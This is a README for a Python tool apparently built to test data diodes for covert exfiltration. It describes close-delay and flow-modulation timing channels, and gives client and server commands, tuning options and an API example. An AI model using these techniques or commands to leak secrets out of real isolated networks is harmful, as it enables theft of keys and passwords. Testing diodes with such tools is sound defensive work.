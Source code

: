 # Leaky Diodes

Leaky diode is a data exfiltrarion test tool for data diodes, to determine if they
are vulnerable to **flow modulation** and/or **close delay** attacks described
in this blog post. Of course this only applies to data diodes that support TCP
connections.

- **CLOSE DELAY** attack uses the delay between the request of one the secret bits and
the time the server closes the connection to encode the bit value. (i.e.- 10 seconds
delay means a 0, 30 seconds delay a 1)

- **FLOW MODULATION** attack uses tcp flow control mechanism to encode secret bits as
a transfer speed. For example if the the bit requested by the client is 1 the server
throttles the speed to 300KB/s, if it's 0 to 64KB/s. The advantage of this attack is
that using a single connection makes it much harder to detect.


## Installation

Download the package or clone the repository, and then install with:

```bash
python3 setup.py install
```

or use pypi:

```bash
pip install leaky_diode
```

## Usage

On the isolated side launch the server:

```bash
leaky_server public_ip port 'secret string that needs leaking'
```

On the untrusted side launch the client and select one of the attacks available,
and enable partial results.

```bash
leaky_client server_ip server_port --mode flow --partial
```

or

```bash
leaky_client server_ip server_port --mode close --partial
```

And wait seven minutes to receive the first byte (it's the slowest), and one and 
a half minutes for each one after that.
 

## Options

```bash
usage: leaky_client [-h] [--mode mode] [--low_delay delay] [--high_delay delay] [--low_rate rate] 
					[--high_rate rate] [--sample_time time] [--settle_time time] [--partial]
                    host port

Leaky Diode is a data exfiltration test tool for data diodes

positional arguments:
  host                  Remore host address
  port                  Remote host port

optional arguments:
  -h, --help            Show this help message and exit
  --mode mode, -m mode  Attack mode 'flow' or 'close' (default: flow)
  --low_delay delay     Close delay for low bits (default: 5s) (only Close Mode)
  --high_delay delay    Close delay for high bits (default: 10s) (only Close Mode)
  --low_rate rate       Tx rate for low bits (default: 64 KB/s) (only Flow Mode)
  --high_rate rate      Tx rate for high bits (default: 300 KB/s) (only Flow Mode)
  --sample_time time    Tx rate sampling interval (default: 4.0s) (only Flow Mode)
  --settle_time time    Settle time between sending a bit request and the start of 
                        sampling (default: 10.0s) (only Flow Mode)
  --partial             Show partial results each time another byte from the secret is received
  --verbose             Show debugging messages
```

```bash
usage: leaky_server [-h] host port secret_string

Leaky Diode is a data exfiltration test tool for data diodes

positional arguments:
  host           Remore host address
  port           Remote host port
  secret_string  Attack mode 'flow' or 'close' (default: a secret string)

optional arguments:
  -h, --help     Show this help message and exit
  -v, --verbose  Show debugging messages
```

## Performance

The attack throughput with the default parameters is around 1 B/min (yes one byte per minute),
you can increase it by lowering the delay times in **close delay** mode, and the settle/sample
times in **flow modulation** (the default values are very conservative)

An actual exfiltration attempt using this attack could easily leak a few KB per day, too slow
for large breachs, but enough for targeted attacks for keys/passwords or selected users.


## API

It is also possible to use leaky_diode as a package and include a leaky server in your own app:


* class LeakyServer(host, port, secret, ticks=100, max_connections=10)
	Launch leaky

	* host: (str) Listen interface ip addres ('' for all)
	* port: (int) Listen port
	* secret: (bytes) Secret to leak (max length 65535)
	* ticks: (int) Ticks per second the worker process use to throttle the connections.
	* max_connections: (int) Max concurrent connection the server can handle.

	* **start()**: Initialize and launch server worker processes
    * **stop()**: Stop server and its workers

   
```python
from leaky_diode import LeakyServer

leaky_server = LeakyServer('192.168.0.10', 9000, b'some secret byte string')
leaky_server.start()

# Do something else
......

# Close server before exit
leaky_server.close()
``` 


## TODO

- Harden message parsing input validation (invalid lengths)
- Use concurrent connection to increase exfiltration speed.
- Tune flow modulation mode tx speeds .
- Tune close delay mode delays.
- Add CRC to the secret and secret length, or even better error correction. 
- Add resume capability so there is no need to get the secret in one go.
- Add some tests.
